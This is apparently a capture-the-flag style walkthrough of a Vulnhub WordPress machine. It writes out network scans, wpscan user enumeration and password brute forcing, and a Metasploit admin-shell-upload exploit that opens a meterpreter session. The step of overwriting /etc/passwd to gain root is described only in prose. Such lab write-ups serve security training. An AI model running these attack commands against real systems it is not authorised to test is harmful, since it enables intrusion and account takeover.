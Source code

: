 |---|---|
|:---|:----|
| Category: |	Small boot2root VM |
|Platform: |	Vulnhub |
|Vulnerability: | wordpress hacking |
|End Goal: |	Get root |
|Tool: | nmap, nikto, wpscan, metasploit  |

## Pennetration Methodologie
- Scan the target
  - Find target's IP
  - Nmap scan
- Enumeration
  - Nikto scan
  - wpscan
- Exploit
  - Wordpress Exploit
  - Privilege escalation
  - Get root
## Walkthrough
### Scanning
Firstly I find the target’s IP by using **netdiscover** tool, we can easily find ip of the victim machine
```
┌──(root㉿kali)-[/home/kali]
└─# netdiscover -i eth0 -r 192.168.44.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts                                                               17 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 1020                                                           
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.44.2    00:50:56:f2:22:8b      6     360  VMware, Inc.                                                                    
 192.168.44.1    00:50:56:c0:00:08      1      60  VMware, Inc.                                                                    
 192.168.44.130  00:0c:29:0e:97:6e      8     480  VMware, Inc.                                                                    
 192.168.44.254  00:50:56:e3:25:b0      2     120  VMware, Inc.
```
Target: **192.168.44.130** 
- Let's continue with **Nmap** scan.

```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -Pn -T4  192.168.44.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 17:24 EDT
Nmap scan report for 192.168.44.130
Host is up (0.00088s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:0E:97:6E (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds
```
From this we can see the following ports and services:
- 21/tcp open  ftp     ProFTPD 1.3.3c
- 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
- 80/tcp open  http    Apache httpd 2.4.18
Check http servive

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/26e3bb4b-1690-4ca9-8e12-d8085bc0bbea)

Nothing here. Scan Web with nikto

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/547d2d58-5288-4b85-95ea-94ab2e84627a)

We find a interestin folder is **secret**. When check in URL, I find wordpress login page

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/bc174807-5783-45b0-b288-fa31ccc2dce2)

### Enumeration

The next step is to enumerate any potential users and vulnerabilities in the site by using wpscan:

```
wpscan --url http://192.168.44.130/secret -e u

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

I find a user that is **admin**. Let's continue to bruteforce the password of this user by ussing wpscan.

```
wpscan --url http://vtcsec/secret/ -U admin -P  /usr/share/wordlists/dirb/common.txt

```
I find the password for admin that is admin

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/950cc8d0-d279-491c-81b8-f3a8ca5aff7d)

Log in with this credential

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/990c1ffb-637d-4f7c-9f92-e7a1876699fd)


### Exploit
- Upload php reverse shell into wordpress page. Metasploit can be used to generate a plugin which will automationally upload a payload and give us shell. Start metasploit and set options that are necessary.

```
msf6 > search wp admin shell
msf6 > use 3
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD admin
PASSWORD => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOST 192.168.44.130
RHOST => 192.168.44.130
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /secret
TARGETURI => /secret
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit
```

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/4810e633-4fa2-4ee1-9e7c-5bf4d8e5b4ed)

The exploit should executed successfully and open a meterpreter session. Running a getuid command from this session (or id from a shell) shows we currently have access as the user: www-data. Therefore, some additional work is required to obtain root access.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/c3e57682-80ab-42a8-b502-329d6acd1b83)

### Privilege escalation
To check for any potential misconfigurations that could be lead to privilege escalatio, I use **unix-privesc-check** to scan. First upload **unix-privesc-check** to remote machice.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/18b15cf9-35af-4934-bfb9-06f030b56c0e)

Set excure permision for unin-privesc_check and run script.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/06bc75c5-77c1-434d-9665-7244afa11e65)

From the result, we can edit file /etc/passwd. Download /etc/passwd to local macline.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/12f6648b-7899-465a-83f7-2c484ca9c4ee)

Then, from a local terminal, we can use openssl to generate a new hashed password:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/efd82140-dbb5-4e0d-b797-a72d57a633c5)

Finally, we can edit the passwd file using vim and replace the x value for the root user with the hashed password from the above command:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/16144723-c017-4abd-9943-7e2f58409fcd)

The modified passwd file can then be uploaded to the target via the meterpreter session:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/aa86b3a8-0a87-4e76-ac58-dccea620215e)

Using the the shell command in meterpreter this can then be tranformed into an interactive bash shell via Python:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/5d530681-ea87-4d61-b955-d9f61e7f4b97)

Finally, we can su to the root user using the new password generated above:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/40f1c099-6930-4d7d-96c8-d7214c5d5de2)

Checking information of current user:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/8802fb73-fc59-4fff-b6bb-c78afa10db90)

So we get root of this machine.


